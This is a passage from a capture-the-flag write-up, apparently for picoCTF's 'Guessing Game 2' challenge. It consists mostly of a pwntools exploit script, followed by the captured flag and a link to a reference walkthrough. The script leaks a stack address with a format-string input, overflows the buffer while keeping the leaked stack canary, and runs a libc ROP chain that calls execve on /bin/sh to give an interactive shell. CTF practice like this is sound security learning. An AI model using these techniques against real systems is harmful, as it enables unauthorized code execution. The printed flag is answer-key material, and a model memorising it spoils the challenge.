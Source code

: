 ```python=

'''#############
Get Shell
#############'''
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b"%138$p")
r.recvuntil(b"Congrats: ")
ebp_addr = int(r.recvuntil(b"\n").strip().decode(), 16)
success(f"ebp address = {hex(ebp_addr)}")
# raw_input()

bin_sh_1 = 0x6e69622f
bin_sh_2 = 0x68732f
pop_eax_ret = 0x00024d37 + libc_addr
pop_ebx_ret = 0x00018d05 + libc_addr
pop_ecx_ret = 0x00193aa4 + libc_addr
pop_edx_ret = 0x00001aae + libc_addr
int_0x80 = 0x00002d3f + libc_addr

ROP_payload = flat(
    pop_eax_ret, 0xb,
    pop_ebx_ret, (ebp_addr+0x8),
    pop_ecx_ret, 0,
    pop_edx_ret, 0,
    int_0x80,
    bin_sh_1, bin_sh_2
)
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b'a' * (0x200) + p32(canary_value) + b'a' * 0xc + ROP_payload)
# raw_input()
r.interactive()
```

Flag: `picoCTF{p0p_r0p_4nd_dr0p_1t_73d8dcc827619318}`
## Reference
[PicoCTF — Guessing Game 2 Walkthrough | ret2libc, stack cookies](https://captain-woof.medium.com/picoctf-guessing-game-2-walkthrough-ret2libc-stack-cookies-6f9fc39273bf)